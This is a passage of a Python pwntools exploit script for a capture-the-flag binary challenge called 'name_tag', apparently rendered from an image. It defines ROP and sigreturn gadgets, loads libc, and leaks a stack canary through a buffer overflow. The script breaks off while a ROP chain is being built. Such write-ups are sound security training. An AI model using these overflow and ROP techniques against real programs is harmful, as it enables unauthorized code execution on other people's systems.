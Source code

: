 ```python  
#!/usr/bin/env python3  
from pwn import *

#  exe = context.binary = ELF('name_tag')  
exe = context.binary = ELF('name_tag-traceable')

sigreturn = 0x4015b2 # add rax 14; add rax 1; syscall  
syscall = 0x4015ba   # syscall  
pop_rsp = 0x40163d   # pop rsp; pop r13; pop r14; pop r15; ret;  
clear_eax = 0x401279 # mov eax, 0; pop rbp; ret

host = args.HOST or 'challenge.ctf.games'  
port = int(args.PORT or 32181)  
#  context.log_level = "DEBUG"

if args.LOCAL:  
   libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")  
else:  
   # Found via leaking GOT entries and querying libc.rip. It was unintended  
   # to find a result but the author missed this site's DB.  
   libc = ELF("./libc-2.32-x86_64.so")

def local(argv=[], *a, **kw):  
   '''Execute the target binary locally'''  
   if args.GDB:  
       return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)  
   else:  
       return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):  
   '''Connect to the process on the remote host'''  
   io = connect(host, port)  
   if args.GDB:  
       gdb.attach(io, gdbscript=gdbscript)  
   return io

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
   if args.LOCAL:  
       return local(argv, *a, **kw)  
   else:  
       return remote(argv, *a, **kw)

gdbscript = '''  
break main  
continue  
'''.format(**locals())

# Arch:     amd64-64-little  
# RELRO:    Partial RELRO  
# Stack:    Canary found  
# NX:       NX enabled  
# PIE:      No PIE (0x400000)

def do_rop(io, chain):  
   io.sendline((b"A"*40)+b"\x01")  
   io.recvuntil(b"A"*40)  
   cookie = int.from_bytes(io.recv()[:8], "little")  
   cookie &= 0xffffffffffffff00 # zero out lowest byte  
log.info("-> cookie: " + hex(cookie))  
   io.clean()

   p = pack(1) + pack(2) + pack(3) # r13-15, ROP next  
```